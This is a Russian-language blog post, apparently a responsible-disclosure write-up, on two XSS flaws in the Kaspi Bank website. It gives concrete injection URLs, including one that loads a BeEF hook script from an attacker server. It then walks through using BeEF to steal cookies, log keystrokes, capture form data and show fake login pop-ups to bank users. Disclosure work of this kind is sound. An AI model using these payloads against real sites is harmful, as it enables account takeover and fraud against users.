 ```yaml
---
layout: post
title: "Уязвимость в Kaspi Bank (XSS+BeEF)"
date: '2015-12-03T23:28:19+06:00'
categories: bank security xss
about: 'about.html'
---
```

О проблемах я сообщил Каспи банку 18 дней назад. Длинный пост поделен на 2 части: обсуждение двух XSS уязвимостей на сайте банка и знакомство с BeEF.
<!--more-->

>**XSS** (cross site scripting) или межсайтовый скриптинг - это серьезная уязвимость. Простыми словами, на вашем сайте (без вашего 
разрешения) выполняется чужой код. То есть, кто-то может контролировать что делает или видит пользователь вашего сайта!

Первый XSS вектор - это неправильная обработка параметра **idc**.

hxxps://kaspi.kz/payments?**idc=78xx&quot;/&gt;&lt;script&gt;confirm(&lsquo;xss%20kaspi&rsquo;);&lt;/script&gt;&lt;meta%20x=“**
![image][img0]

Результат: постоянный (persistent) XSS, который сохраняется в течение всей сессии, даже если вы перейдете на другую страницу банка.
![image][img1]

***

Следующая уязвимость находится в поиске магазина. Сайт фильтрует многие тэги и атрибуты типа *script*, *src*, *onerror*, но 
не **object** и **data**. Мы можем вставить наш код, создав новый объект.

Здесь использую демо код с jsfiddle.net.
![image][img2]

Можно также создать объект с вредоносным PDF, Java, Flash или например простой картинкой.
![image][img3]

***

Теперь обсудим насколько легко использовать эти уязвимости.

>[The Browser Exploitation Framework] (BeEF) – это средство для эксплуатаций браузеров 
которое содержит набор модулей.

BeEF “цепляет&quot; браузер жертвы с помощью javascript кода, что позволяет выполнять различные действия. Браузер может быть настольным или 
мобильным.
![image][img4]

Вообще BeEF умеет делать очень продвинутые вещи (снимок с веб-камеры, запись аудио, атака на роутер и LAN, создание прокси и т.д.), но мы будем 
использовать модули для угона аккаунта и “развода” на деньги.

Готовим cсылку для жертвы: hxxps://kaspi.kz/payments?idc=666&quot;/&gt;&lt;script src=&ldquo;**http://192.168.1.111:3000/hook.js**&rdquo;&gt;&lt;/script&gt;&lt;meta o=&ldquo;

- **kaspi.kz** – сайт куда вставляется зацепка для BeEF (hook)
- **192.168.1.111** – сервер на котором установлен BeEF
- **192.168.1.1** – IP адрес жертвы

Такую ссылку можно отправить пользователю банка, админу или CEO (так как сайт банка использует *HTTPS*, настоящие мошенники загрузят 
скрипт-зацепку на *HTTPS* сайт, чтобы браузер жертвы не жаловался на активное смешанное содержимое).

Отправив ссылку, нужно зайти на наш сервер. BeEF идет вместе с удобной админ-панелью (логин/пароль по умолчанию *beef/beef*).
![image][img5]

После авторизаций, вы имеете доступ ко всем “зацепленным” браузерам. Здесь вы видите куки, данные ОС, список плагинов и т.д.
![image][img6]

Вы также видите, что делает жертва на странице (неплохой кейлогер).
![image][img7]

Тем временем, пользователь ничего не подозревает&hellip;
![image][img8]

Но нам необязательно читать журнал событий, ведь перехват данных формы не составляет большого труда. Есть готовый модуль.
![image][img9]

Вы всегда можете разработать свой модуль для BeEF. Также, многие модули идут с шаблонами, которые легко изменить под себя. Далее, пример показа всплывающего окна для перехвата пары логин/пароль.
![image][img10]

У вас есть возможность видеть содержимое браузера жертвы. То есть можете скачать весь HTML код либо сделать скриншот реальной страницы.
![image][img11]

Пример редактирования конкретного компонента страницы.
![image][img12]

Авторы модулей для BeEF – люди не без юмора.
![image][img13]

Вот и все. Надеюсь разработчики и владельцы сайтов теперь понимают чем может обернуться для пользователей простой или постоянный XSS.

**P.S.**
Был ли заражен ваш браузер в прошлом, можно проверить [здесь].

[The Browser Exploitation Framework]: https://github.com/beefproject/beef/wiki 
[здесь]: https://goo.gl/SsAhv
[img0]: /assets/images/{{page.slug}}/img0.png
[img1]: /assets/images/{{page.slug}}/img1.png
[img2]: /assets/images/{{page.slug}}/img2.png
[img3]: /assets/images/{{page.slug}}/img3.png
[img4]: /assets/images/{{page.slug}}/img4.png
[img5]: /assets/images/{{page.slug}}/img5.png
[img6]: /assets/images/{{page.slug}}/img6.png
[img7]: /assets/images/{{page.slug}}/img7.png
[img8]: /assets/images/{{page.slug}}/img8.png
[img9]: /assets/images/{{page.slug}}/img9.png
[img10]: /assets/images/{{page.slug}}/img10.png
[img11]: /assets/images/{{page.slug}}/img11.png
[img12]: /assets/images/{{page.slug}}/img12.png
[img13]: /assets/images/{{page.slug}}/img13.png